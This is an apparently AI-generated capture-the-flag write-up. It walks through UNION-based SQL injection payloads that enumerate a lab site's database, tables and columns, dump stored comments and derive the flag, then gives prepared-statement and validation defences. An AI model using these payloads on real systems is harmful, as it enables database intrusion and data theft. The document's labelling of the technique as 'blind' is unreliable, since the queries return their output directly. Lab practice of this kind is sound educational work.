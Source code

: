 Introduction
This demonstrates how to exploit a blind SQL injection vulnerability where error messages are not displayed. This type of vulnerability requires a methodical approach since we don't receive direct feedback through error messages.

Environment Setup
- Target URL: /index.php?page=searchimg
- Attack Type: Blind SQL Injection
- Goal: Extract sensitive information without error feedback

Methodical Exploitation Process

Step 1: Initial Testing
Unlike error-based SQL injection, blind injection requires us to infer the database structure through successful and failed queries. We begin by testing the same UNION-based queries that worked in the error-based scenario.

Step 2: Database Identification
Execute the following query to determine the database name:
```sql
1 union all select 1,database()
```
This reveals the database name: "Member_images"

Step 3: Table Enumeration
To discover available tables within the database:
```sql
1 union all select 1,group_concat(table_name) 
from Information_schema.tables 
where table_schema=database()
```
Result: "list_images"

Step 4: Column Structure Analysis
Retrieve the column names using hexadecimal encoding of the table name:
```sql
1 union all select 1,group_concat(column_name) 
from Information_schema.columns 
where table_name=0x6c6973745f696d61676573
```
Note: 0x6c6973745f696d61676573 is the hexadecimal representation of "list_images"
Retrieved columns: "id,url,title,comment"

Step 5: Data Extraction
Extract the contents of the comment column:
```sql
1 union all select 1,group_concat(comment,0x0a) 
from list_images
```
Retrieved message: "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"

Step 6: Flag Generation Process
1. MD5 Decryption:
   - Input: 1928e8083cf461a51303633093573c46
   - Result: "albatroz"

2. SHA256 Hash Generation:
```bash
echo -n albatroz | shasum -a 256
```
Final Flag: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

Security Implementation Guidelines

Database Security Controls
1. Prepared Statements Implementation:
```php
$stmt = $pdo->prepare("SELECT * FROM list_images WHERE id = ?");
$stmt->execute([$searchId]);
```

2. Input Validation:
```php
function validateInput($input) {
    return preg_replace("/[^a-zA-Z0-9]/", "", $input);
}
$safeInput = validateInput($_GET['search']);
```

3. Parameterized Queries:
```php
$query = "SELECT * FROM list_images WHERE title = :title";
$stmt = $pdo->prepare($query);
$stmt->execute(['title' => $searchTerm]);
```

Additional Security Measures

1. Database Configuration
- Implement least privilege access
- Regular security audits
- Enable query logging for suspicious activities

2. Application Layer Security
- Implement WAF rules
- Use proper session management
- Regular security updates
- Input/output encoding

3. Monitoring and Prevention
- Set up intrusion detection systems
- Implement rate limiting
- Regular penetration testing
- Security log analysis

Conclusion
Blind SQL injection vulnerabilities, while more challenging to exploit than error-based ones, can still lead to significant data exposure. Implementing proper security controls, especially prepared statements and input validation, is crucial for preventing such vulnerabilities. Regular security assessments and maintaining updated security measures help ensure ongoing protection against SQL injection attacks.

Would you like me to elaborate on any specific aspect of this exploitation process or security implementation?